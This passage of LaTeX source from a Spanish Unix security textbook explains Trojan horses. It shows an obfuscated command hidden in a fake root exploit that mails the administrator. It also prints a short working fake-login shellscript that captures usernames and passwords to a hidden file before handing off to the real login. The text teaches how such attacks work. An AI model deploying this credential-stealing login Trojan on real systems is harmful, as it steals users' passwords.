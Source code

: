 los que comenta un potencial problema de seguridad -- real -- en una lista
de correo y se acompa\~na la descripci\'on de un {\it shellscript} que en
principio aprovecha dicho problema para conseguir privilegios de {\it root}. En 
ese {\it exploit} se ha incluido, convenientemente camuflada, una sentencia 
similar a la siguiente:
\begin{quote}
\begin{verbatim}
echo "A'p gr4ibf t2 hLcM ueem"|tr Ae4Lpbf2gumM Ioyamngotrtk| mail \
     -s "`echo "A'p gr4ibf t2 hLcM ueem"|tr Ae4Lpbf2gumM Ioyamngotrtk`" root
\end{verbatim}
\end{quote}
De esta forma, cuando un {\it script kiddie} ejecute el programa para conseguir
privilegios en el sistema, sin darse cuenta autom\'aticamente lo estar\'a 
notificando al administrador del mismo; evidentemente el {\it exploit} suele
ser falso y no da ning\'un privilegio adicional, simplemente sirve para que el 
{\it root} sepa qu\'e usuarios est\'an `jugando' con la seguridad de sus
m\'aquinas.\\
\\Por desgracia, estos troyanos inofensivos no son los m\'as comunes; existen
tambi\'en ejemplos de caballos de Troya da\~ninos: sin duda el ejemplo 
t\'{\i}pico de troyano (tan t\'{\i}pico que ha recibido un nombre especial:
{\it trojan mule} o mula de Troya (\cite{kn:tom94})) es el falso programa de 
{\it login}. Nada m\'as encender
una terminal de una m\'aquina Unix aparece el cl\'asico mensaje {\tt `login:'}
solicitando nuestro nombre de usuario y contrase\~na, datos que con toda 
seguridad la persona que enciende este dispositivo teclear\'a para poder acceder
al sistema. Pero, >qu\'e suceder\'{\i}a si el programa que imprime 
el mensaje en pantalla es un troyano? Cualquier usuario del sistema puede crear
un c\'odigo que muestre un mensaje similar, guarde la informaci\'on le\'{\i}da
de teclado (el {\it login} y el {\it password}) e invoque despu\'es al programa
{\tt login} original; tras la primera lectura, se mostrar\'a el tambi\'en
cl\'asico mensaje {\it `Login incorrect'}, de forma que el usuario pensar\'a
que ha tecleado mal sus datos -- nada extra\~no, al fin y al cabo --. Cuando
el programa original se ejecute, se permitir\'a el acceso al sistema y ese
usuario no habr\'a notado nada anormal, pero alguien acaba de registrar su
{\it login} y su contrase\~na. Un troyano de este tipo es tan sencillo que se
puede hacer -- de forma simplificada -- en unas pocas l\'{\i}neas de {\it
shellscript}:
\begin{quote}
\begin{verbatim}
luisa:~$ cat trojan
clear
printf "`uname -n` login: "
read login
stty -echonl -echo
printf "Password: "
read pass
echo "$login : $pass" >>/tmp/.claves
printf "\nLogin incorrect"
echo 
exec /bin/login
luisa:~$ 
\end{verbatim}
\end{quote}
